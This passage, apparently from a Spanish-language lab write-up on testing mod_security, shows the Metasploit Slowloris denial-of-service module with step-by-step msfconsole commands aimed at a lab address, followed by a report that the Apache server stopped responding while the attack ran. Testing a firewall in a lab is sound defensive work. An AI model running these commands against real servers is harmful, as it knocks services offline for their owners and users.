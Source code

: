![remote shell](img/7.png)

### Pruebas a mod_security<a name="testmod"></a>

**[Slowloris](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/dos/http/slowloris.md)**

Es una herramienta del framework metasploit utilizada para hacer ataques DOS hacia:

+ Apache HTTP Server 1.x and 2.x
+ Apache Tomcat 5.5.0 through 5.5.29, 6.0.0 through 6.0.27 and 7.0.0 beta

```bash
$sudo msfconsole
>use auxiliary/dos/http/slowloris
>show options #para ver la configuraciond el modulo
>set rhost 10.0.0.10
>set rport 443
>set ssl true
>set sockets 1000 #aunque la mv solo podrá tirar 225 por sus limitaciones de hw
>run #Ejecuta el ataque
```

En las siguientes imágenes se puede apreciar como nada más empezar el ataque el servidor apache2 deja de responder la solicitud de mi navegador, en cuando se detiene el ataque el navegador vuelve a ser capaz de acceder a la web.
